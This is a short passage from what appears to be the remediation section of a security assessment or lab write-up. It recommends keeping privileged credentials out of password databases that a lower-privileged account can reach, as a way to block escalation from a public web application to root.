| **Privileged Credentials in Password Databases** | Avoid storing privileged credentials in locations accessible after compromise of a lower-privileged account. Privileged credentials should be protected using appropriate access controls and credential management mechanisms. |

Implementing these recommendations would significantly reduce the likelihood of an attacker progressing from a publicly accessible web application to full root access on the underlying system.